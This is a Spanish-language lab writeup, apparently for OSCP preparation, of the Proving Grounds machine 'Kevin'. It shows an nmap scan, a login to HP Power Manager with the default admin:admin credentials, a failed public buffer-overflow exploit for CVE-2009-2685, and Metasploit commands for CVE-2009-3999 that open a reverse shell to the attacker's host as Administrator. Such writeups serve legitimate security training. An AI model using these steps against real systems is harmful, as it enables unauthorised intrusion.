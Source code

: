 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Kevin Writeup
excerpt: "Hoy estaré resolviendo la máquina Kevin, una máquina bastante sencilla, ya que no necesitaremos escalar privilegios: el servicio vulnerable ya se ejecuta con privilegios de Administrador. He elegido empezar con algo más básico, ya que en los próximos días estaré abordando máquinas centradas en Active Directory, fundamentales para la preparación del OSCP."
date: 2025-04-10
classes: wide
header:
  teaser: /assets/images/pg-writeup-kevin/pg_writeup_kevin.webp
  teaser_home_page: true
  icon: /assets/images/hacked.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - HP Power Manager
  - Pentesting
---
```


Comenzamos sin rodeos.

<p align="center">
<img src="/assets/images/pg-writeup-kevin/start_kevin.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -vvv -n -Pn 192.168.212.45 -oG allports
```

# Puertos: 

```bash
Nmap scan report for 192.168.212.45
Host is up (0.042s latency).
PORT      STATE SERVICE      VERSION
80/tcp    open  http         GoAhead WebServer
| http-title: HP Power Manager
|_Requested resource was http://192.168.212.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2025-03-14T15:47:12
|_Not valid after:  2025-09-13T15:47:12
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2025-03-15T15:52:44+00:00
|_ssl-date: 2025-03-15T15:52:59+00:00; +1s from scanner time.
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2025-03-15T15:52:44
|_  start_date: 2025-03-15T15:47:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-15T08:52:44-07:00
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:bf:5c (VMware)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.75 seconds
```

Durante el escaneo con Nmap, ya puedo ver que en el título de la página web en el puerto 80 aparece HP Power Manager, así que voy directo a investigar esa interfaz.

# Puerto 80:

Me encuentro efectivamente con un `HP Power Manager`

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165637.png">
</p>

Como se puede ver en la foto, ya tengo unas credenciales escritas: <span style="color:red;">admin:admin</span>, las cuales, según mi búsqueda en Google, son las credenciales por defecto en `HP Power Manager`.

Y las credenciales son válidas

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165710.png">
</p>

# Intrusión - CVE-2009-2685 - HP Power Manager Administration Universal Buffer Overflow Exploit

Una vez dentro, me dispongo a buscar vulnerabilidades asociadas al servicio `HP Power Manager`.

```bash
searchsploit HP Power Manager
```
<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165812.png">
</p>

Voy a probar la siguiente vulnerabilidad presente en [ExploitDB](https://www.exploit-db.com/), la cual explota un `Buffer Overflow`.

[CVE-2009-2685](https://www.exploit-db.com/exploits/10099)


Lanzo el exploit indicando la IP de la máquina víctima. Se ve que lo que hace el exploit es iniciar en la máquina una bind shell por el puerto `4444`, para que luego me conecte con `Netcat`. No necesitamos indicar las credenciales, ya que están hardcodeadas en el exploit directamente.

```bash
python2 exploit.py 192.168.212.45
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK
[+] Done!
[*] Check your shell at 192.168.212.45:4444 , can take up to 1 min to spawn your shell
```
Pero algo no ha funcionado 

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171120.png">
</p>

Dado que no me ha funcionado el script, voy a usar `Metasploit` para ser rápido, pero ¡recuerda! Solo puedes usar `Metasploit` en una máquina del `OSCP`. Si eliges una máquina para usar `Metasploit`, con ella ya no podrás usarlo en otra máquina.

<p align="center">
<img src="/assets/images/pg-writeup-kevin/warning.gif">
</p>

Vamos allá

```bash
msfconsole
```

```bash
msf6> search "formExportDataLogs"
msf6> use 0
```

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171659.png">
</p>

Haciendo búsquedas en Google, me encuentro con otra vulnerabilidad de `HP Power Manager que permite RCE`, en la función `formExportDataLogs`. La vulnerabilidad está asociada con este CVE: `CVE-2009-3999`.

**Reverse shell**

```bash
msf6> set username admin
msf6> set password admin
msf6> set LHOST 192.168.45.214
msf6> set LPORT 4444
msf6> set RHOSTS 192.168.212.45
msf6> run
```

Obtenemos la sesión como usuario Administrador: 

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171809.png">
</p>

Ya podemos leer el `proof.txt`

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250410175419.png">
</p>

Máquina completada!

<p align="center">
<img src="/assets/images/pg-writeup-kevin/tony-stark-iron-man.gif">
</p>


Gracias por leer y recuerda usar `Metasploit` con precaución en el `OSCP`.


